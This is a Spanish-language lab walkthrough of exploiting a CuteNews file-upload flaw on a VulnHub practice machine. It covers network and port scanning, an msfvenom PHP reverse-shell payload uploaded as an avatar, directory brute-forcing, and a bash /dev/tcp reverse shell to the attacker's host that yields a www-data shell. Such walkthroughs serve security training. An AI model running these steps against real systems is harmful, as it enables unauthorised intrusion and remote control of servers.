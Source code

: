 # Explotación de vulnerabilidad File Upload

Vamos a ver cómo podemos generar un payload en php que podamos subir al servidor y así obtener acceso a la máquina víctima. Para ello, vamos a acceder a un servidor FTP como Anonymous, que será donde subamos nuestro payload y adquirir esa intrusión al servidor.

Enlace a la máquina vulnerable:

[https://www.vulnhub.com/entry/sectalks-bne0x03-simple,141](https://www.vulnhub.com/entry/sectalks-bne0x03-simple,141)

* Hacer reconocimiento de la red para encontrar la máquina objetiva:

```bash
└─# arp-scan -I eth0 --localnet                                         
Interface: eth0, type: EN10MB, MAC: 08:00:27:ba:28:e1, IPv4: 192.168.1.18
WARNING: Cannot open MAC/Vendor file ieee-oui.txt: Permission denied
WARNING: Cannot open MAC/Vendor file mac-vendor.txt: Permission denied
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.1.1	a8:9a:93:66:15:50	(Unknown)
192.168.1.15	f4:7b:09:52:3d:48	(Unknown)
192.168.1.36	08:00:27:28:82:7e	(Unknown)
192.168.1.13	fe:d5:2d:56:5a:08	(Unknown: locally administered)
192.168.1.12	1c:98:c1:ab:90:69	(Unknown)
192.168.1.11	d8:1e:dd:32:a2:9d	(Unknown)
192.168.1.28	74:40:be:9e:eb:4a	(Unknown)

7 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 2.108 seconds (121.44 hosts/sec). 7 responded
```

* Ver si tenemos conectividad con la máquina objetiva:

```bash
└─# ping -c 1 192.168.1.36
PING 192.168.1.36 (192.168.1.36) 56(84) bytes of data.
64 bytes from 192.168.1.36: icmp_seq=1 ttl=64 time=3.11 ms

--- 192.168.1.36 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 3.111/3.111/3.111/0.000 ms
```

* Escanear los puertos de la máquina objetivo:

```bash
└─# nmap -p- --open -sS -sC -sV --min-rate 5000 -n -vvv -Pn 192.168.1.36
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-29 22:13 CET
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 22:13
Completed NSE at 22:13, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 22:13
Completed NSE at 22:13, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 22:13
Completed NSE at 22:13, 0.00s elapsed
Initiating ARP Ping Scan at 22:13
Scanning 192.168.1.36 [1 port]
Completed ARP Ping Scan at 22:13, 0.21s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 22:13
Scanning 192.168.1.36 [65535 ports]
SYN Stealth Scan Timing: About 50.00% done; ETC: 22:14 (0:00:33 remaining)
Discovered open port 80/tcp on 192.168.1.36
Completed SYN Stealth Scan at 22:14, 69.22s elapsed (65535 total ports)
Initiating Service scan at 22:14
Scanning 1 service on 192.168.1.36
Completed Service scan at 22:14, 6.17s elapsed (1 service on 1 host)
NSE: Script scanning 192.168.1.36.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 22:14
Completed NSE at 22:14, 0.40s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 22:14
Completed NSE at 22:14, 0.08s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 22:14
Completed NSE at 22:14, 0.02s elapsed
Nmap scan report for 192.168.1.36
Host is up, received arp-response (0.00080s latency).
Scanned at 2024-10-29 22:13:07 CET for 76s
Not shown: 53055 filtered tcp ports (no-response), 12479 closed tcp ports (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.7 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 759585A56089DB516D1FBBBE5A8EEA57
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Please Login / CuteNews
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
MAC Address: 08:00:27:28:82:7E (Oracle VirtualBox virtual NIC)

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 22:14
Completed NSE at 22:14, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 22:14
Completed NSE at 22:14, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 22:14
Completed NSE at 22:14, 0.00s elapsed
Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 77.10 seconds
           Raw packets sent: 124833 (5.493MB) | Rcvd: 12483 (499.320KB)
```

Registrarse en la página web [register](http://192.168.1.36/?register).

En la parte de personal options tenemos la posibilidad de subir un archivo donde puede ser vulnerable a file upload a través un archivo php para entrar en la máquina objetivo.

* Crear archivo php con msfvenom:

```bash
└─# msfvenom -p php/reverse_php LHOST=192.168.1.18 LPORT=1717 -f raw > rs.php                                            
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 2995 bytes
```

* Subimos el archivo en la sección del avatar y con gobuster buscamos directorios en el servidor web:

```bash
└─# gobuster dir -u http://192.168.1.36/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt       
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.1.36/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/docs                 (Status: 301) [Size: 310] [--> http://192.168.1.36/docs/]
/uploads              (Status: 301) [Size: 313] [--> http://192.168.1.36/uploads/]
/skins                (Status: 301) [Size: 311] [--> http://192.168.1.36/skins/]
/core                 (Status: 301) [Size: 310] [--> http://192.168.1.36/core/]
/cdata                (Status: 301) [Size: 311] [--> http://192.168.1.36/cdata/]
/server-status        (Status: 403) [Size: 292]
Progress: 207643 / 207644 (100.00%)
===============================================================
Finished
===============================================================
```

* Encontramos el directorio uploads donde esta subido nuestro archivo entonces nos ponemos en escucha con netcat:

```bash
└─$ nc -lvnp 1717
listening on [any] 1717 ...
```

* Abrimos o mandamos una petición a [uploads](http://192.168.1.36/uploads/avatar_red_rs.php):

```bash
└─$ curl http://192.168.1.36/uploads/avatar_red_rs.php
```

* Y recibimos la reverse-shell pero la conexion no es muy estable y al momento se cierra entonces enviaremos otra reverse-shell por otro puerto desde otra terminal:

```bash
└─$ nc -lvnp 1717
listening on [any] 1717 ...
connect to [192.168.1.18] from (UNKNOWN) [192.168.1.36] 54394
hostname
simple
```

* Escuchar en otro puerto en otra terminal:

```bash
└─$ nc -lvnp 7777
listening on [any] 7777 ...
```

* Enviar reverse-shell:

```bash
└─$ nc -lvnp 1717
listening on [any] 1717 ...
connect to [192.168.1.18] from (UNKNOWN) [192.168.1.36] 54394
hostname
simple

bash -c "bash -i >& /dev/tcp/192.168.1.18/7777 0>&1"
```

* Recibir la reverse-shell:

```bash
└─$ nc -lvnp 7777
listening on [any] 7777 ...
connect to [192.168.1.18] from (UNKNOWN) [192.168.1.36] 45708
bash: cannot set terminal process group (1068): Inappropriate ioctl for device
bash: no job control in this shell
www-data@simple:/var/www/html/uploads$ hostname
hostname
simple
www-data@simple:/var/www/html/uploads$ 
```
